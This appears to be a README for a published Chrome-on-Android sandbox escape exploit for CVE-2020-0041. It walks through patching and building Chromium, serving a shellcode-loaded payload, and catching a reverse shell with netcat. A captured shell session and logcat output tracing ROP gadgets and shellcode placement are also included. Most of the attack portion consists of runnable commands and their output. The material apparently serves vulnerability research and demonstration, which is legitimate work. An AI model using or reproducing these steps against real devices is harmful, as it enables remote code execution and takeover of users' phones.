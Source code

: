# CVE-2020-0041: Chrome sandbox escape exploit

This folder contains the Chrome sandbox escape exploit we wrote for CVE-2020-0041. 
The exploit is provided as a set of patches for Chromium 78.0.3904.62 in order to 
demonstrate the approach.

The same code could be simply injected into the renderer from an RCE vulnerability 
or using a rooted phone for test pruposes.   

## Testing the exploit


### Building chrome

The exploit is provided as a set of patches for a checkout of the `78.0.3904.62`
release branch.

To test the exploit, first checkout and build the provided branch for Android. 
The exploit was built against a build using the following arguments:

```
target_os = "android"
target_cpu = "arm"
is_debug = false
is_official_build=true
```

After the initial build succeeds, apply the changes in `sandbox/v8.diff` to the 
`v8` code, and the changes in `main.diff` to the main repository:

```
user@laptop:~/work/chromium_release/chromium/src$ patch -p1 < ~/num_valid/sandbox/main.diff 
patching file content/renderer/binder.c
patching file content/renderer/binder.h
patching file content/renderer/binder_lookup.h
patching file content/renderer/constants.h
patching file content/renderer/exploit.c
patching file content/renderer/render_thread_impl.cc
patching file content/renderer/rop.h
patching file content/renderer/sc.h
patching file content/renderer/uapi_binder.h

user@laptop:~/chromium/src$ cd v8
user@laptop:~/chromium/src/v8$ patch -p1 < ~/num_valid/sandbox/v8.diff 
patching file src/builtins/builtins-typed-array.cc
```

The patches create a hook in the `indexOf` function of typed array buffers, 
which when called with 3 or more arguments redirect execution into the `exploit`
function in `content/renderer/exploit.c`.

After the patches have been applied, rebuild Chromium and install the produced
APK.

```
user@laptop:~/work/chromium_release/chromium/src$ ninja -C out/Default chrome_public_apk -j 8 && \
out/Default/bin/chrome_public_apk uninstall && out/Default/bin/chrome_public_apk install
```

### Testing the exploit

After building the patched chromium and installing it on a phone, the following 
setup is required:

1. Build the library you would like to  payload and run the `serve.py` script from the `sandbox/` folder.
This script will provide the `payload.so` file to be loaded by the shellcode. Additionally, 
it also serves the `payload.dex` and `payload.exe` file if the `payload.so` file requests 
them (used for the LPE exploit):

	```
  $ cd reverse_shell && make && cp libs/armeabi-v7a/libpayload.so ../payload.so && cd ..
	$ adb reverse tcp:6666 tcp:6666 ; python ./serve.py
	```

2. Setup a reverse shell listener on tcp:5555:

	```
	$ adb reverse tcp:5555 tcp:5555 ; nc -l -p 5555 -vv
	```

3. Serve `sandbox/index.html` to the browser to trigger the exploit. For example,
using python:

	```
	$ adb reverse tcp:8080 tcp:8080 ; python -m SimpleHTTPServer 8080
	```

Now simply navigate to http://localhost:8080/ to trigger the exploit.

```
$ adb reverse tcp:5555 tcp:5555 ; nc -l -p 5555 -vv
5555
Listening on [0.0.0.0] (family 0, port 5555)
Connection from localhost 36871 received!
id
uid=10246(u0_a246) gid=10246(u0_a246) groups=10246(u0_a246),3001(net_bt_admin),3002(net_bt),3003(inet),9997(everybody),20246(u0_a246_cache),50246(all_a246) context=u:r:untrusted_app_27:s0:c246,c256,c512,c768

```

The exploit also produces debug output in logcat with the PWN tag. To see it, 
simply run `adb logcat | grep PWN`. It should produce output similar to this:

```
11-04 16:33:08.269 31606 31634 D PWN     : [*] Binder mapping at 0xc97eb000
11-04 16:33:08.269 31606 31634 D PWN     : [*] Found binder fd 9
11-04 16:33:08.272 31606 31634 D PWN     : [*] IParentProcess handle is 5
11-04 16:33:08.275 31606 31634 D PWN     : [*] Transaction size max fdeb8
11-04 16:33:08.275 31606 31634 D PWN     : [*] Target user_address: c97eb148
11-04 16:33:08.276 31606 31634 D PWN     : [*] Target binder offset: 64
11-04 16:33:08.276 31606 31634 D PWN     : [*] Fake PTR offset: 7c
11-04 16:33:08.276 31606 31634 D PWN     : [*] Valid PTR offset: a4
11-04 16:33:08.276 31606 31634 D PWN     : [*] Shellcode size: 0x160
11-04 16:33:08.286 31606 31634 D PWN     : [*] libc: 0xf1585000 , libc size: 0xb6000
11-04 16:33:08.289 31606 31634 D PWN     : [*] Found gadget 0 at 0xf163024c
11-04 16:33:08.290 31606 31634 D PWN     : [*] Found gadget 1 at 0xf15dfcdc
11-04 16:33:08.291 31606 31634 D PWN     : [*] Found gadget 2 at 0xf15ce0a9
11-04 16:33:08.292 31606 31634 D PWN     : [*] Found gadget 3 at 0xf15e8c6f
11-04 16:33:08.293 31606 31634 D PWN     : [*] Found gadget 4 at 0xf15ee10d
11-04 16:33:08.293 31606 31634 D PWN     : [*] Found gadget 5 at 0xf15ae24d
11-04 16:33:08.295 31606 31634 D PWN     : [*] Found gadget 6 at 0xf160ebfc
11-04 16:33:08.297 31606 31634 D PWN     : [*] Found gadget 7 at 0xf1619335
11-04 16:33:08.297 31606 31634 D PWN     : [*] Found gadget 8 at 0xf15d38df
11-04 16:33:08.298 31606 31634 D PWN     : [*] Found gadget 9 at 0xf15bb2b8
11-04 16:33:08.299 31606 31634 D PWN     : [*] Found gadget 10 at 0xf15e4774
11-04 16:33:08.300 31606 31634 D PWN     : [*] Found gadget 11 at 0xf15dfbb8
11-04 16:33:08.302 31606 31634 D PWN     : [*] Handle: 0xec965cd8, open: 0xf15eb281
11-04 16:33:08.311 31606 31634 D PWN     : [*] Linker mapping at 0xf39d6000, size b9000
11-04 16:33:08.311 31606 31634 D PWN     : [*] Found linker dlopen: 0xf39f30b9
11-04 16:33:08.311 31606 31634 D PWN     : [*] fake_object_addr: c97eb2e8
11-04 16:33:08.311 31606 31634 D PWN     : [*] Register scratch space: f163b6e8
11-04 16:33:08.311 31606 31634 D PWN     : [*] Final shellcode expected at c97eb658
11-04 16:33:08.311 31606 31634 D PWN     : [*] Final shellcode location 30309000
11-04 16:33:08.311 31606 31634 D PWN     : [*] Shellcode copy at 30308800
11-04 16:33:08.337 31606 31634 D PWN     : [*] transaction return code: 0

```
